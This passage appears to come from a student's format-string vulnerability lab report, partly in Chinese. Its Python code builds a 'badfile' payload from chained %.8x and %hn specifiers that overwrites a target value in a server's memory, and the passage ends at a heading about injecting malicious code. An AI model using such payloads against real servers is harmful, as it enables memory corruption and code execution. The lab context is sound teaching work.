 ```python
content[4:8]  =  ("abcd").encode('latin-1')


# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*62 + "%.43137x" + "%hn" +"%.8738x"  +"%hn"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[12:12+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

成功修改成目标值

![image-20231211164056253](/img/posts/2023-12-11-格式化字符串实验报告.assets/image-20231211164056253.png)

## 6 Task 4: Inject Malicious Code into the Server Program  

### 6.1 Understanding the Stack Layout
